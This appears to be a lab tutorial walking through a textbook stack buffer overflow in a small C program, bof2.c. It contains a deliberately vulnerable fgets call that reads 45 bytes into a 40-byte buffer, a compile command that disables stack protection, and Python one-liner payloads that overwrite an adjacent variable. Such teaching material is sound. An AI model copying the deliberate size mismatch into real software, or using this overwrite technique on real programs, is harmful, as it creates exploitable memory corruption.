




# Buffer Overflow Attack on `bof2.c`

```c
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
    int var;
    int check = 0x04030201;
    char buf[40];

    fgets(buf, 45, stdin);

    printf("\n[buf]: %s\n", buf);
    printf("[check] 0x%x\n", check);

    if ((check != 0x04030201) && (check != 0xdeadbeef))
        printf("\nYou are on the right way!\n");

    if (check == 0xdeadbeef)
    {
        printf("Yeah! You win!\n");
    }
}
```

The target is to change the value of the `check` variable by overflowing the `buf[40]` buffer.

Although this program uses `fgets()`, which limits the input size, the vulnerability is that `fgets()` is allowing 45 characters, which is larger than the `[buf]`'s size of 40 characters. This overflow enables us to overwrite adjacent memory, including the `check` variable.

## Compile the program

Similar to [bof1.c](./bof1.md), we compile the source code with `-fno-stack-protector` to disable the stack protector.

    gcc -g bof2.c -o bof2.o -fno-stack-protector -mpreferred-stack-boundary=2



A new file `bof2.o` is created.

## Stack Frame of `main()`



The `buf` array is allocated 40 bytes on the stack, followed by the `check` variable. Since `fgets()` allows us to input up to 45 characters, we can overflow the `buf` array and overwrite `check`.

The initial value of `check` is `0x04030201`. In **Little Endian** format (used by most x86 systems), this will appear in memory as `01 02 03 04`.

Our goal is to provide an input that overflows `buf[40]` and changes the value of `check` to `0xdeadbeef`.

Note that the variable `var` is not relevant to this attack, as it does not affect the exploitation process.

## Testing the Attack

To verify that we can change the value of `check`, we will first try a simple overflow to see if it results in the `You are on the right way!` message.

We'll use Python to craft the input and test it:

```bash
echo $(python -c "print('a' * 40 + 'ffff')") | ./bof2
```

### Explanation:

-   `'a' * 40`: This fills the 40-byte `buf` array.
-   `'ffff'`: This is an arbitrary string used to attempt to overwrite `check`.

### Result:



We received the message, `You are on the right way!`, which indicates that we successfully changed the value of `check`.

## Full Exploit

Now, we will overwrite the `check` variable with the value `0xdeadbeef`. In **Little Endian** format, `0xdeadbeef` is represented as `\xef\xbe\xad\xde`.

We'll use Python again to create the payload:

```bash
echo $(python -c "print('a' * 40 + '\xef\xbe\xad\xde')") | ./bof2
```

### Explanation:

-   `'a' * 40`: This fills the `buf` array.
-   `\xef\xbe\xad\xde`: This is the Little Endian representation of `0xdeadbeef`, which will overwrite the `check` variable.

### Result:



The program now outputs, `Yeah! You win!`, and the value of `check` is displayed as `0xdeadbeef`. This confirms that we have successfully exploited the buffer overflow to change the value of `check` and trigger the desired behavior.
